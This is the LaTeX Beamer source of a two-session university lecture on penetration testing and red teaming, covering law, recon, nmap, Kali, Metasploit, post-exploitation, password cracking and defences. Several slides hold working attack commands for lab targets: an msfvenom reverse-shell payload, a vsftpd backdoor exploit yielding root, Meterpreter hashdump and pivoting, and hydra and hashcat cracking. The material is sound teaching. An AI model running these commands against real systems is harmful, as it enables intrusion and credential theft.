% ============================================================================
%  Cyber Security Master Lecture
%  Offensive Security in Practice --- TWO-SESSION BLOCK (2 x 90 min)
%
%  Session 1: Foundations, Recon, Scanning, Kali
%  Session 2: Exploitation (Metasploit), Post-Exploitation, Red Teaming, Defence
%
%  Compile with:  pdflatex presentation_2sessions.tex   (run twice for the TOC)
% ============================================================================
\documentclass[aspectratio=169,11pt]{beamer}

% ---- Theme -----------------------------------------------------------------
\usetheme{metropolis}
\metroset{block=fill, numbering=fraction, progressbar=frametitle, sectionpage=progressbar}

% ---- Fallback (built-in) ---------------------------------------------------
% \usetheme{Madrid}\usecolortheme{seahorse}\setbeamertemplate{navigation symbols}{}

% ---- Packages --------------------------------------------------------------
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{lmodern}
\usepackage{booktabs}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{tikz}
\usetikzlibrary{positioning, arrows.meta, shapes.geometric, fit, backgrounds}
\usepackage{fontawesome5}

% ---- Colours ---------------------------------------------------------------
\definecolor{kaliBlue}{HTML}{367BF0}
\definecolor{warnRed}{HTML}{C0392B}
\definecolor{okGreen}{HTML}{27AE60}
\definecolor{codeBg}{HTML}{F4F6F8}

% ---- Listings --------------------------------------------------------------
\lstdefinestyle{shell}{
  basicstyle=\ttfamily\footnotesize,
  backgroundcolor=\color{codeBg},
  keywordstyle=\color{kaliBlue}\bfseries,
  commentstyle=\color{okGreen},
  stringstyle=\color{warnRed},
  breaklines=true, showstringspaces=false, frame=single,
  rulecolor=\color{gray!40},
  morekeywords={nmap,msfconsole,msfvenom,use,set,run,exploit,search,sessions,
    sudo,apt,whoami,getuid,sysinfo,hashdump,getsystem,ping,curl,gobuster,hydra,
    show,options,payloads,background,portfwd,route,LHOST,RHOST,RHOSTS,RPORT,
    LPORT,PAYLOAD,enum4linux,smbclient,searchsploit,nikto,john,hashcat}
}
\lstset{style=shell}

% ---- Metadata --------------------------------------------------------------
\title{Offensive Security in Practice}
\subtitle{A Two-Session Block: Pentesting, Red Teaming, Kali \& Metasploit}
\author{Cyber Security Master Lecture}
\institute{HWR Berlin --- M.Sc.\ Business \& Information Systems}
\date{\today}

% ---- Helper ----------------------------------------------------------------
\newcommand{\legalbox}[1]{%
  \begin{beamercolorbox}[wd=\textwidth,sep=6pt,rounded=true]{block body}%
  \color{warnRed}\textbf{\faExclamationTriangle\ Legal/Ethics:} #1%
  \end{beamercolorbox}}

% A reusable "session banner" frame
\newcommand{\sessionbanner}[3]{%
  \begin{frame}[standout]
    {\Large\textbf{Session #1}}\par\vspace{0.6em}
    {#2}\par\vspace{0.8em}
    {\small\color{kaliBlue}#3}
  \end{frame}}

\begin{document}

% ============================================================================
\begin{frame}[plain]\titlepage\end{frame}

\begin{frame}{The two-session block at a glance}
  \begin{columns}[T]
    \begin{column}{0.5\textwidth}
      \begin{block}{Session 1 --- ``Get in''}
        \footnotesize Foundations \& reconnaissance.
        \begin{itemize}\footnotesize
          \item Ethics, law, authorization
          \item Terminology \& methodology
          \item Recon, scanning, enumeration
          \item Kali Linux \& the toolbox
        \end{itemize}
        \emph{Ends with a lab homework.}
      \end{block}
    \end{column}
    \begin{column}{0.5\textwidth}
      \begin{block}{Session 2 --- ``Stay in''}
        \footnotesize Exploitation \& adversary craft.
        \begin{itemize}\footnotesize
          \item Metasploit deep dive + live demo
          \item Post-exploitation, privesc, pivoting
          \item Credential attacks
          \item Red teaming, C2, evasion
          \item Reporting \& defence
        \end{itemize}
      \end{block}
    \end{column}
  \end{columns}
\end{frame}

\begin{frame}{Learning outcomes}
  After the block, students can:
  \begin{enumerate}
    \item State the legal/ethical preconditions for any offensive work and
          explain why they matter.
    \item Distinguish pentest, red team, vuln scan, and bug bounty, and pick a
          fitting methodology (PTES, ATT\&CK).
    \item Run a structured recon$\to$enumeration$\to$exploitation workflow in a
          lab using Kali and Metasploit.
    \item Describe post-exploitation goals (privesc, lateral movement,
          persistence) and how red teams operate.
    \item Map every offensive technique to a concrete \textbf{defensive}
          control and write a usable finding.
  \end{enumerate}
\end{frame}

% ############################################################################
% #  SESSION 1
% ############################################################################
\sessionbanner{1}{Foundations, Recon \& Enumeration}{90 minutes --- ``How attackers find a way in''}

\begin{frame}{Session 1 --- agenda}\tableofcontents[sections={1-6}]\end{frame}

% ============================================================================
\section{Ethics, Law \& Authorization}
% ============================================================================
\begin{frame}{The single most important slide}
  \begin{alertblock}{No authorization, no test.}
    Everything in this block is illegal \emph{without explicit, written
    permission} for the specific systems in scope.
  \end{alertblock}
  \vspace{0.4em}
  \begin{itemize}
    \item \textbf{Germany:} \S202a (data espionage), \S202b (interception),
          \S202c (``Hackerparagraph'' --- tools), \S303a/b (data/computer
          sabotage) StGB.
    \item \textbf{EU/US:} NIS2, GDPR; Computer Fraud and Abuse Act (US).
    \item A penetration test is a \textbf{contract}: scope, RoE, timeframe,
          emergency contacts, ``get-out-of-jail'' letter.
  \end{itemize}
  \legalbox{A single unauthorized \texttt{nmap} run can already be a criminal
  offence.}
\end{frame}

\begin{frame}{The engagement lifecycle (paperwork first)}
  \centering
  
\begin{tikzpicture}[node distance=3mm,
    box/.style={draw, rounded corners, fill=kaliBlue!10, font=\scriptsize,
      text width=2.2cm, align=center, minimum height=1cm},
    arr/.style={-{Stealth[length=2mm]}, thick, kaliBlue}]
    \node[box] (a) {Pre-engagement \\ \scriptsize SoW, scope, RoE};
    \node[box, right=of a] (b) {Authorization \\ \scriptsize signed letter};
    \node[box, right=of b] (c) {Testing \\ \scriptsize the technical work};
    \node[box, right=of c] (d) {Reporting \\ \scriptsize findings + fixes};
    \node[box, right=of d] (e) {Retest \& \\ Cleanup};
    \draw[arr](a)--(b);\draw[arr](b)--(c);\draw[arr](c)--(d);\draw[arr](d)--(e);
  \end{tikzpicture}
  \vspace{0.6em}
  \begin{itemize}\footnotesize
    \item \textbf{Scope} = IP ranges, domains, apps + an explicit \emph{out of
          scope} list.
    \item \textbf{RoE} = allowed techniques (DoS? social engineering?), window,
          data handling, who to call when something breaks.
    \item \textbf{Duty of care:} handle discovered data minimally; report
          critical findings immediately, don't wait for the final document.
  \end{itemize}
\end{frame}

\begin{frame}{Where to practice legally (used in the homework)}
  \begin{columns}[T]
    \begin{column}{0.5\textwidth}
      \textbf{Self-hosted, made to be hacked}
      \begin{itemize}\footnotesize
        \item Metasploitable 2/3
        \item DVWA, OWASP Juice Shop
        \item VulnHub VM images
      \end{itemize}
    \end{column}
    \begin{column}{0.5\textwidth}
      \textbf{Guided platforms}
      \begin{itemize}\footnotesize
        \item TryHackMe (beginner)
        \item Hack The Box / HTB Academy
        \item PortSwigger Web Security Academy
      \end{itemize}
    \end{column}
  \end{columns}
  \legalbox{Even in a lab: keep targets on a \textbf{host-only} network so a
  tool can never accidentally reach the internet or campus systems.}
\end{frame}

% ============================================================================
\section{Terminology \& Landscape}
% ============================================================================
\begin{frame}{What is what?}
  \begin{table}\footnotesize
  \begin{tabular}{@{}p{3.0cm}p{8.4cm}@{}}
  \toprule
  \textbf{Term} & \textbf{Meaning} \\ \midrule
  Vulnerability scan & Automated detection of known flaws. No exploitation. \\
  Penetration test   & Find \emph{and prove} exploitable issues in scope, time-boxed. \\
  Red teaming        & Goal-oriented adversary \emph{emulation}; tests detection \& response. \\
  Bug bounty         & Crowd-sourced, continuous, pay-per-valid-finding. \\
  Purple teaming     & Red + Blue collaborating to improve detections. \\
  Ethical hacking    & Umbrella term: authorized offensive security work. \\
  \bottomrule
  \end{tabular}\end{table}
  \footnotesize\textbf{Rule of thumb:} a pentest asks \emph{``can we get in?''};
  a red team asks \emph{``will anyone notice when we do?''}.
\end{frame}

\begin{frame}{Pentest flavours}
  \begin{columns}[T]
    \begin{column}{0.5\textwidth}
      \textbf{By knowledge given}
      \begin{itemize}
        \item \textbf{Black box} --- no info (outsider).
        \item \textbf{Grey box} --- partial / a user account.
        \item \textbf{White box} --- full info \& source.
      \end{itemize}
    \end{column}
    \begin{column}{0.5\textwidth}
      \textbf{By vantage / target}
      \begin{itemize}\footnotesize
        \item External / Internal (assume-breach)
        \item Web / API / Mobile
        \item Wireless, Cloud, Physical
        \item Social engineering
      \end{itemize}
    \end{column}
  \end{columns}
  \vspace{0.5em}
  More knowledge $\Rightarrow$ more thorough, less realistic.
\end{frame}

% ============================================================================
\section{Methodology \& Frameworks}
% ============================================================================
\begin{frame}{Standards you should be able to name}
  \begin{itemize}
    \item \textbf{PTES} --- Penetration Testing Execution Standard (7 phases).
    \item \textbf{NIST SP 800-115} --- technical testing guide.
    \item \textbf{OSSTMM}; \textbf{OWASP WSTG / MASTG} (web \& mobile).
    \item \textbf{MITRE ATT\&CK} --- knowledge base of real adversary TTPs.
    \item \textbf{Cyber Kill Chain} (Lockheed Martin) --- 7-stage intrusion.
    \item \textbf{TIBER-EU} --- regulator framework for threat-led red teaming.
  \end{itemize}
  \footnotesize A framework gives a \emph{repeatable, defensible} process ---
  the difference between a report and a pile of screenshots.
\end{frame}

\begin{frame}{The attack lifecycle (the spine of both sessions)}
  \centering
  
\begin{tikzpicture}[node distance=4mm,
    stage/.style={draw, rounded corners, fill=kaliBlue!12, text width=2.4cm,
      align=center, font=\scriptsize, minimum height=1.1cm},
    arr/.style={-{Stealth[length=2mm]}, thick, kaliBlue}]
    \node[stage] (recon) {1. Recon \\ \scriptsize OSINT};
    \node[stage, right=of recon] (scan) {2. Scanning \& Enumeration};
    \node[stage, right=of scan] (exploit) {3. Exploitation};
    \node[stage, below=of exploit] (post) {4. Post-Exploitation};
    \node[stage, left=of post] (lat) {5. Lateral Movement \& Persistence};
    \node[stage, left=of lat] (report) {6. Reporting \& Cleanup};
    \draw[arr](recon)--(scan);\draw[arr](scan)--(exploit);
    \draw[arr](exploit)--(post);\draw[arr](post)--(lat);\draw[arr](lat)--(report);
    \draw[arr](lat.north) to[bend left=20] (scan.south);
  \end{tikzpicture}
  \vspace{0.3em}
  \par\footnotesize \textcolor{kaliBlue}{\textbf{Session 1}} covers 1--2;
  \textcolor{kaliBlue}{\textbf{Session 2}} covers 3--6. The loop back is the
  reality of every internal test.
\end{frame}

% ============================================================================
\section{Reconnaissance}
% ============================================================================
\begin{frame}[fragile]{Recon: passive vs active}
  \textbf{Passive (no packets to the target):} WHOIS, DNS, certificate
  transparency (crt.sh), Shodan/Censys, Google dorking, LinkedIn, breach dumps.
  \begin{itemize}\footnotesize
    \item Goal: map the attack surface \emph{without being seen}.
    \item Yields: domains, subdomains, IP ranges, employees, tech stack, leaked
          credentials.
  \end{itemize}
  \textbf{Active:} touching the target --- port scans, banner grabbing, DNS
  zone transfer attempts.
  \begin{lstlisting}[language=bash]
whois example.com           # registration data
# subdomains from public TLS certificates, no contact with target:
curl -s "https://crt.sh/?q=%25.example.com&output=json"
  \end{lstlisting}
  \footnotesize OSINT tools: \texttt{theHarvester}, \texttt{recon-ng},
  \texttt{amass}, \texttt{Maltego}.
\end{frame}

% ============================================================================
\section{Scanning \& Enumeration}
% ============================================================================
\begin{frame}[fragile]{Scanning with nmap}
  \begin{lstlisting}[language=bash]
nmap -sn 10.10.10.0/24                 # host discovery (who's alive)
nmap -sV -sC -p- -oA scan 10.10.10.5   # all ports, versions, default scripts
nmap -sU --top-ports 50 10.10.10.5     # UDP (slow, often forgotten)
  \end{lstlisting}
  \begin{itemize}\footnotesize
    \item \texttt{-sV} service/version, \texttt{-sC} safe default scripts,
          \texttt{-p-} all 65535 TCP ports, \texttt{-oA} save all formats.
    \item Output drives everything downstream: each open port is a lead.
  \end{itemize}
  \legalbox{Aggressive timing (\texttt{-T5}) and full-port scans are loud --- a
  red team would slow down and stay quiet.}
\end{frame}

\begin{frame}[fragile]{Enumeration: where pentests are won}
  Don't stop at ``port open'' --- interrogate each service.
  \begin{lstlisting}[language=bash]
# SMB
enum4linux -a 10.10.10.5
smbclient -L //10.10.10.5/ -N
# Web
gobuster dir -u http://10.10.10.5 -w wordlist.txt
nikto -h http://10.10.10.5
# Match a version to a public exploit
searchsploit vsftpd 2.3.4
  \end{lstlisting}
  \footnotesize ``Enumerate, then enumerate again.'' Most footholds come from a
  service the team almost skipped, or a default/weak credential.
\end{frame}

% ============================================================================
\section{Kali Linux \& the Toolbox}
% ============================================================================
\begin{frame}{Kali Linux: the offensive distro}
  \begin{columns}[T]
    \begin{column}{0.58\textwidth}
      \begin{itemize}
        \item Debian-based, by \textbf{Offensive Security}; 600+ pre-installed
              tools.
        \item Runs as VM, live USB, WSL, ARM, cloud. Single-purpose, not a
              daily driver.
      \end{itemize}
      \textbf{Tool map:}
      \begin{itemize}\footnotesize
        \item Recon: \texttt{nmap}, \texttt{theHarvester}, \texttt{amass}
        \item Vuln: \texttt{nikto}, \texttt{nuclei}, \texttt{searchsploit}
        \item Web: \texttt{Burp}, \texttt{sqlmap}, \texttt{gobuster}
        \item Exploit: \texttt{Metasploit}
        \item Passwords: \texttt{hashcat}, \texttt{john}, \texttt{hydra}
        \item Wireless/sniff: \texttt{aircrack-ng}, \texttt{wireshark}
      \end{itemize}
    \end{column}
    \begin{column}{0.42\textwidth}
      \begin{alertblock}{\footnotesize Alternatives}
        \footnotesize Parrot OS, BlackArch, Commando VM (Windows). The skills
        transfer --- the distro is just a curated toolbox.
      \end{alertblock}
    \end{column}
  \end{columns}
\end{frame}

\begin{frame}{End of Session 1}
  \begin{block}{Recap}
    Authorization $\to$ methodology $\to$ recon $\to$ scanning $\to$ enumeration.
    You can now \emph{map} a target; next time you \emph{break in}.
  \end{block}
  \begin{alertblock}{Lab homework (before Session 2)}
    Build the lab (Kali + Metasploitable 2, host-only). Run a full
    \texttt{nmap -sV -sC -p-} of the target and bring your list of open
    services --- we exploit one live next time.
  \end{alertblock}
\end{frame}

% ############################################################################
% #  SESSION 2
% ############################################################################
\sessionbanner{2}{Exploitation, Red Teaming \& Defence}{90 minutes --- ``How attackers stay in --- and how we stop them''}

\begin{frame}{Session 2 --- agenda}\tableofcontents[sections={7-12}]\end{frame}

\begin{frame}{Recap \& bridge}
  \begin{itemize}
    \item Last time: authorization, methodology, and getting from \emph{nothing}
          to a \emph{map} of open services.
    \item Today: turn an enumerated service into a \textbf{shell}, then into
          \textbf{control}, then think like a \textbf{red team} --- and close
          every door behind us as defenders.
    \item Your homework \texttt{nmap} output is the input for today's live demo.
  \end{itemize}
\end{frame}

% ============================================================================
\section{The Metasploit Framework}
% ============================================================================
\begin{frame}{Metasploit: the mental model}
  \begin{itemize}
    \item Open-source exploitation framework (Rapid7 + community); the standard
          for \emph{learning} exploitation.
    \item Uniform workflow: \texttt{search $\to$ use $\to$ set $\to$ exploit
          $\to$ sessions}.
  \end{itemize}
  \begin{table}\footnotesize
  \begin{tabular}{@{}ll@{}}\toprule
  \texttt{exploits}  & code that triggers a vulnerability \\
  \texttt{payloads}  & what runs after success (Meterpreter, shell) \\
  \texttt{auxiliary} & scanners, fuzzers, sniffers --- no payload \\
  \texttt{post}      & post-exploitation (creds, pivot) \\
  \texttt{encoders / nops} & evade naive signatures / pad payloads \\
  \bottomrule\end{tabular}\end{table}
\end{frame}

\begin{frame}[fragile]{Payloads: bind vs reverse, Meterpreter, msfvenom}
  \begin{itemize}\footnotesize
    \item \textbf{Bind} (attacker connects in) vs \textbf{reverse} (target calls
          home --- beats inbound firewalls, the common case).
    \item \textbf{Staged} (\texttt{.../meterpreter/reverse\_tcp}, the \texttt{/})
          vs \textbf{stageless} (self-contained).
    \item \textbf{Meterpreter} --- in-memory, extensible: files, \texttt{hashdump},
          keylog, pivot, no disk touch.
  \end{itemize}
  \begin{lstlisting}[language=bash]
# Generate a standalone payload artifact, catch it with multi/handler
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.3 LPORT=4444 -f exe -o shell.exe
  \end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Live demo --- exploitation (vsftpd 2.3.4)}
  \begin{lstlisting}[language=bash]
msf6 > search vsftpd
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(...) > set RHOSTS <TARGET>
msf6 exploit(...) > exploit
[*] Command shell session 1 opened ...
$ whoami
root
  \end{lstlisting}
  \footnotesize \faTerminal\ \textbf{Demo runs from the cheat-sheet
  (\texttt{demo\_cheatsheet.pdf}).} We will also catch a \textbf{Meterpreter}
  session via \texttt{java\_rmi\_server} to show the difference between a raw
  shell and a managed session.
\end{frame}

% ============================================================================
\section{Post-Exploitation}
% ============================================================================
\begin{frame}[fragile]{Post-exploitation goals \& Meterpreter}
  \begin{lstlisting}[language=bash]
meterpreter > getuid                  # who am I?
meterpreter > sysinfo                 # OS, arch
meterpreter > getsystem               # try privilege escalation
meterpreter > hashdump                # local password hashes
meterpreter > run post/multi/recon/local_exploit_suggester
meterpreter > portfwd add -l 3389 -p 3389 -r 10.0.0.9  # pivot
  \end{lstlisting}
  \footnotesize \textbf{After a foothold:} situational awareness $\to$ privilege
  escalation $\to$ credential harvesting $\to$ persistence $\to$ lateral movement
  $\to$ objective.
  \legalbox{\footnotesize Persistence \& \texttt{hashdump} on a real client must
  be in the RoE and cleaned up.}
\end{frame}

\begin{frame}{Privilege escalation \& lateral movement}
  \begin{columns}[T]
    \begin{column}{0.5\textwidth}
      \textbf{Privilege escalation}
      \begin{itemize}\footnotesize
        \item Kernel exploits
        \item Mis-set SUID / sudo rules
        \item Weak service permissions
        \item Cleartext creds in configs
        \item Tools: \texttt{linpeas}, \texttt{winPEAS}
      \end{itemize}
    \end{column}
    \begin{column}{0.5\textwidth}
      \textbf{Lateral movement}
      \begin{itemize}\footnotesize
        \item Pass-the-hash / pass-the-ticket
        \item Reused local-admin passwords
        \item RDP / SSH / SMB with looted creds
        \item Pivoting via \texttt{autoroute} + SOCKS
      \end{itemize}
    \end{column}
  \end{columns}
  \vspace{0.4em}
  \footnotesize Each new host loops you back to \textbf{enumeration} of a fresh
  internal segment --- the spiral from Session 1.
\end{frame}

% ============================================================================
\section{Credential Attacks}
% ============================================================================
\begin{frame}[fragile]{Passwords: online vs offline}
  \begin{itemize}\footnotesize
    \item \textbf{Online} (against a live service): rate-limited, noisy, locks
          accounts.
    \item \textbf{Offline} (against captured hashes): fast, silent, the real
          prize from \texttt{hashdump}.
  \end{itemize}
  \begin{lstlisting}[language=bash]
# Online: try a wordlist against SSH
hydra -l msfadmin -P rockyou.txt ssh://10.10.10.5
# Offline: crack the dumped hashes
hashcat -m 1000 hashes.txt rockyou.txt      # NTLM
john --wordlist=rockyou.txt hashes.txt
  \end{lstlisting}
  \footnotesize \textbf{Defence preview:} long passphrases + slow hashing
  (bcrypt/argon2) + MFA make offline cracking economically hopeless.
\end{frame}

% ============================================================================
\section{Red Teaming}
% ============================================================================
\begin{frame}{From pentest to red team}
  \begin{columns}[T]
    \begin{column}{0.5\textwidth}
      \textbf{Penetration test}
      \begin{itemize}\footnotesize
        \item Maximize \emph{coverage} of vulns
        \item Scope = list of assets
        \item Blue team often knows
        \item Output: vuln report; days--2 weeks
      \end{itemize}
    \end{column}
    \begin{column}{0.5\textwidth}
      \textbf{Red team}
      \begin{itemize}\footnotesize
        \item Achieve a \emph{specific objective}
        \item Scope = goal + RoE, stealthy
        \item Blue team blind (tests detection)
        \item Output: attack narrative; weeks--months
      \end{itemize}
    \end{column}
  \end{columns}
  \vspace{0.4em}
  Red teaming emulates a \textbf{named threat actor} via ATT\&CK TTPs
  (``threat-led''). Regulated form: \textbf{TIBER-EU}.
\end{frame}

\begin{frame}{Red team building blocks}
  \begin{itemize}
    \item \textbf{Initial access:} phishing, valid creds, exposed service, USB
          drop.
    \item \textbf{C2 (Command \& Control):} Cobalt Strike, Sliver, Mythic, Havoc
          --- beacons calling back over HTTPS/DNS with sleep/jitter.
    \item \textbf{OPSEC \& evasion:} obfuscation, living-off-the-land (LOLBins),
          AV/EDR bypass --- \emph{controlled}, to test detection.
    \item \textbf{Persistence \& lateral movement:} scheduled tasks, Kerberos
          abuse, pass-the-hash.
    \item \textbf{Purple teaming:} replay each TTP \emph{with} the blue team to
          tune detections --- the real client value.
  \end{itemize}
  \legalbox{\footnotesize Evasion is taught to \emph{understand detection}, never
  to attack uninvolved third parties.}
\end{frame}

% ============================================================================
\section{Reporting \& Defence}
% ============================================================================
\begin{frame}{The deliverable is the report, not the shell}
  \begin{itemize}
    \item \textbf{Executive summary} --- business risk, no jargon.
    \item \textbf{Findings} --- description, evidence, \textbf{CVSS}, affected
          assets, reproduction steps.
    \item \textbf{Remediation} --- concrete, prioritized fixes.
    \item \textbf{Attack narrative} (red team) --- mapped to ATT\&CK, with the
          detection opportunities the blue team missed.
  \end{itemize}
  \begin{block}{Blue-team takeaways}
    Patch \& config management, network segmentation, least privilege, MFA,
    logging \& EDR, and \emph{practiced} incident response defeat most of what we
    demoed.
  \end{block}
\end{frame}

\begin{frame}{Offence $\to$ defence: the mapping}
  \begin{table}\footnotesize
  \begin{tabular}{@{}p{5.2cm}p{6.2cm}@{}}\toprule
  \textbf{What we did} & \textbf{What stops it} \\ \midrule
  vsftpd backdoor exploit & patch/config mgmt; remove unmaintained services \\
  hashdump / offline crack & least privilege; slow hashing; MFA; LSASS protection \\
  reverse shell egress & egress filtering; IDS/EDR on anomalous outbound \\
  lateral movement & segmentation; MFA; disable legacy auth \\
  loud nmap scans & IDS signatures; network monitoring \\
  \bottomrule\end{tabular}\end{table}
  \footnotesize Teaching the attack is only worthwhile because it makes the
  defence concrete.
\end{frame}

% ============================================================================
\section*{Wrap-up}
% ============================================================================
\begin{frame}{Block summary}
  \begin{itemize}
    \item Offensive security is \textbf{authorized, methodical, and reported}.
    \item Pentest = find \& prove vulns; red team = emulate an adversary, test
          detection.
    \item A repeatable \textbf{methodology} (PTES, ATT\&CK) beats a bag of tricks.
    \item \textbf{Kali} = toolbox; \textbf{Metasploit} = uniform workflow.
    \item Every offensive technique maps to a \textbf{defensive} control --- the
          whole point.
  \end{itemize}
\end{frame}

\begin{frame}[standout]
  Questions?\\[1em]
  \small Hands-on: exercises + the live-demo cheat-sheet.
\end{frame}

\begin{frame}{References \& further reading}
  \footnotesize
  \begin{itemize}
    \item PTES --- \url{http://www.pentest-standard.org}
    \item NIST SP 800-115; MITRE ATT\&CK --- \url{https://attack.mitre.org}
    \item OWASP WSTG --- \url{https://owasp.org/wstg}
    \item Metasploit Unleashed --- \url{https://www.offsec.com/metasploit-unleashed/}
    \item Kali docs --- \url{https://www.kali.org/docs/}; TIBER-EU --- ECB
    \item Books: \emph{The Hacker Playbook 3}; \emph{Penetration Testing}
          (G.\ Weidman); \emph{Red Team Field Manual}.
  \end{itemize}
\end{frame}

\end{document}
